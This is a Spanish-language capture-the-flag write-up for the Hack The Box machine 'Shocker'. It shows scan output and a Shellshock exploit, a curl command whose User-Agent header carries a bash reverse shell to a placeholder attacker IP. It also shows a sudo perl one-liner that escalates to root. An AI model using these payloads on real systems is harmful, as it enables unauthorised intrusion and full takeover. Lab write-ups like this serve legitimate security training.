 # Shocker ![Avatar](https://www.hackthebox.eu/storage/avatars/efef52a0fb63d9c8db0ab6e50cb6ac79_thumb.png)
Maquina sencilla centrada en una vulnerabilidad real, la llamada Shellshock

Interesante: Shellshock
## Initial Scan
```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18  (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```
Dentro de cgi-bin usamos otra vez gobuster pero con extensiones de ejecutables esta vez php,c,pl,py,sh y encontramos un .sh
```
/user.sh (Status: 200)
```
## Exploit
Parece que tenemos todos los ingredientes para ejecutar un ataque mediante shellshock apache mod_cgi remote exploit
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/bash -i >& /dev/tcp/MyIP/8080 0>&1 ' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
```
Abrimos un listener en local en el puerto 8000 y con esto ya tenemos shell como shelly
## Privesc
```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Ejecutamos lo siguiente
```
sudo perl -e 'exec "/bin/bash";'
```
Y obtenemos shell como root

# Analisís de la intrusión
### Shellsock 
La presencia de un script de gci en el servidor apache nos permitió obtener shell como shelly mediante la vulnerabilidad conocida como Shellshock, esta vulnerabilidad aprovechaba un fallo en la logica de la creacion de variables y la función export para obtener un RCE 
### Privileged perl execution
Se permite al usuario shelly ejecutar script de perls con privilegios elevados, funcionalidad de la que podemos abusar para spawnear una shell con esos mismos permisos
